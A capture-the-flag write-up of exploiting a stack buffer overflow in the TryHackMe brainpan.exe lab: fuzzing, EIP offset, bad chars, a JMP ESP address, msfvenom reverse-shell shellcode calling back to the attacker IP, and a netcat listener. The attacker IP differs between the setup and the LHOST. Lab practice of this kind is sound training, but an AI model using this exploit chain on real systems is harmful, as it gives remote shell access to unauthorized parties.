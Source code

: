 # brainpan.exe - Buffer Overflow Prep - TryHackMe

Writeup for the **brainpan.exe** app available in the [Buffer Overflow Prep](https://tryhackme.com/room/bufferoverflowprep) room from [TryHackMe](https://tryhackme.com/).

Steps for exploiting the **brainpan.exe** application:
1. Know your app
2. Fuzz
3. Find EIP offset
4. Test for bad chars
5. Exploit!

## Set up

* Attacker: Kali Linux, IP 192.179.80.177
* Target: Windows 7 VM, IP 192.168.90.136
  * Immunity Debugger: https://www.immunityinc.com/products/debugger/ - Download and follow the default install
  * mona.py: https://github.com/corelan/mona - Download and copy the file to the 'PyCommands' directory inside the Immunity Debugger install dir (usually is at 'C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands')

## 1. Know your app

Interact with the app and take note of the expected input.
```
nc -nv 192.168.90.136
```


...



## 2. Fuzz

Fuzz the application to test for buffer overflow. You can use [SPIKE](https://resources.infosecinstitute.com/topic/intro-to-fuzzing/) (generic_send_tcp), a tool already available at most Kali Linux installs, or your own script.

In this case, I used a somewhat generic script I created for fuzzing TCP applications: [sock-stream-fuzz.py](https://github.com/isabellecda/cyber-scripts/tree/main/buffer-overflow). Please feel free to use it and/or contribute to it.

Run the application in Immunity Debugger and execute the fuzzer:
```
./sock-stream-fuzz.py --rhost=192.168.90.136 --rport=9999 -f --buffstep=200
```


Application crashed with 600 bytes!

We can see in the debugger that the EIP registry was overwriten:



Testing the application with a buffer head, we can see that we were also able to write to memory positions pointed by EDX and ESP. 
```
./ig-buffer-overflow.py -m test --rhost=192.168.90.136 --rport=9999 --buffsize=1000 --buffhead='HELLO '
```



## 3. Find EIP offset

To find the EIP offset, send a cyclic pattern to the application (the value writen in EIP will be checked against the pattern and the offset will be found).

For this and the next steps I will be using a custom script I created: [ig-buffer-overflow.py](https://github.com/isabellecda/cyber-scripts/tree/main/buffer-overflow). Please feel free to use it and/or contribute to it.

Re-run the application in the debugger and send the cyclic string:
```
./ig-buffer-overflow.py -m cyclic --rhost=192.168.90.136 --rport=9999 --buffsize=600 --buffhead=''
```



Check offset:
```
./ig-buffer-overflow.py -m checkoffset --value=35724134 --length=600
Offset for length 600: 524
```

## 4. Test for bad chars

Write bad chars to found memory position to find out which chars we have to exclude from our exploit:
```
./ig-buffer-overflow.py -m write --rhost=192.168.90.136 --rport=9999 --buffsize=600 --buffhead='' --offset=524 --hexcontent=BBBBBBBB --before=badchar --exclude=00 --nopsb=2
```



!mona config -set workingfolder c:\temp

!mona bytearray

!mona compare -f c:\monalogs\brainpan_2164\bytearray.bin -a 005FF80B



## 5. Find JMP instruction

!mona jmp -n -r ESP



JMP ESP address = 0x311712f3

Set breakpoint at 0x311712f3 and test it writing even more bytes to the application (the following command also adds some nops before and after write content):

./ig-buffer-overflow.py -m write --rhost=192.168.90.136 --rport=9999 --buffsize=1200 --buffhead='' --offset=524 --hexcontent=l311712f3 --after=BBBB --nopsa=4 --before=CCCC --nopsb=10



## 6. Exploit!

Generate shellcode:
```
msfvenom -p windows/shell_reverse_tcp -b "\x00" LHOST=192.168.80.177 LPORT=443 -f hex EXITFUNC=thread -o reverse
```

Set up handler:
```
sudo rlwrap -a nc -lvnp 443
```

Exploit:
```
./ig-buffer-overflow.py -m write --rhost=192.168.90.136 --rport=9999 --buffsize=1200 --buffhead='' --offset=524 --hexcontent=l311712f3 --after=shellcode --nopsa=10 --shellcode=reverse2


```

Got the shell!!





THE END!
